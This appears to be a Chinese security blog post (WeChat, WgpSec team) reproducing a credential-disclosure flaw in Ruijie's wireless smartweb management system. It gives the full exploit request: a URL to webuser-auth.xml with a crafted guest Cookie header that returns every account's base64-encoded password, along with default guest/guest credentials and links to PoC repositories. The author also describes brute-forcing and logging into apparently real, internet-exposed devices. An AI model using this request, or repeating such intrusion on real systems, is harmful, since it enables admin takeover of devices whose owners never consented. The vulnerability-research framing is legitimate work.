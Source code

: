 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/EICYTqRWDRB8OfXKHxCBfQ)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：700

阅读时长：10min

附件 / 链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

**_前言_**

一、

**_漏洞描述_**

锐捷网络股份有限公司无线 smartweb 管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

二、

**_漏洞影响_**

锐捷网络股份有限公司 无线 smartweb 管理系统  

三、

**_漏洞复现_**

今天逛 CNVD 看到了这个漏洞的公开

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z57oe2MLpAedeHZGWe7ibQelWcZ2V0Y6ibUntbMicDdU6g6REXJBJbN1WKA/640?wx_fmt=png)

于是网上找设备登录页面的截图，发现标题为   **无线 smartWeb-- 登录页面**

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5tTgfZCzXHO1m4GIlo882ngkElD8Lia5iaNLecicpjWNAbjBSWDjPFL9ibg/640?wx_fmt=png)

登录页面如下

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5gBVId3xEWldIibh6O2pQ0nJk3PJYO4xL4bAC97Gk1MfIia3V0Eiamhd6Q/640?wx_fmt=png)

然后找到了一个设备存在管理 admin 员的弱口令，进去后发现 Web CLI 控制台

翻文件的过程中发现一个文件很有意思，运行命令查看

```
more /web/xml/webuser-auth.xml
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5OnyuqAqOfBqW60AMNlBOWcNmPibWgS1Z5vwoHWmJQABia29qbz8ZtMug/640?wx_fmt=png)

里面存在所有人的账号密码，于是测试直接访问  

```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml
发现被拦截了，不能访问，想到刚刚CNVD的描述是低权限获取高权限账号
```

于是继续爆破账号密码，找一个低权限账号，然后正在愁密码的时候，看见另一条 CNVD

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5rc7VHvNLVog6n9rs5aqKOrHsxAEzicwQUoJoJZ5IibOoDbyVVu2KVPsw/640?wx_fmt=png)  

拿几个弱口令爆破一下，发下多个设备默认存在 guest 账户，账号密码为 **guest/guest**

**![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5HOLQRSDyhZThhnKsItdWap9a8Ds3JK2KKXSErhjfPxOTqptQZVAOZg/640?wx_fmt=png)**

但是没有 CIL 控制台可以使用了，在重新测试访问刚刚的漏洞点  

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5MCJG0YcmAa8VIiajjUh2e5HS4t7Amg8v6ulIBPZibvU1Xpz8bibpjc8hQ/640?wx_fmt=png)

解密就可以获得 admin 管理员的密码，请求为

```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

直接获得所有的账户的等级标志和 base64 加密的账号密码, 解密后即可登录后台

  

四、

**_Goby & POC_**

```
Goby & POC 已经同步到 Github仓库中的 Goby & POC 目录
https://github.com/PeiQi0/PeiQi-WIKI-POC
https://github.com/wgpsec/wiki
其中包含CNVD-2020-56167 和 CNVD-2021-17369
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5Lbg57vTqdtxtj5vHppUJT68icKxUqVPmBOIjE7npO9BSaCynkwqnxeA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCffCVIoqDakaLe9OZ5Q6Z5acpu6AZhQ1SnFYJjiatvfUFesm50p3D63o3dUcGZK290IyxXWCruDDg/640?wx_fmt=png)

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDCc55WbFiasXQV2ZDzFo8NclAZ2LicCiaeLqxOD3AticSzDm7rRACia7M9m4pickkG8pXR2w1L8maEoBSw/640?wx_fmt=png)

推荐一下 PeiQi 的个人公众号~

公众号

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)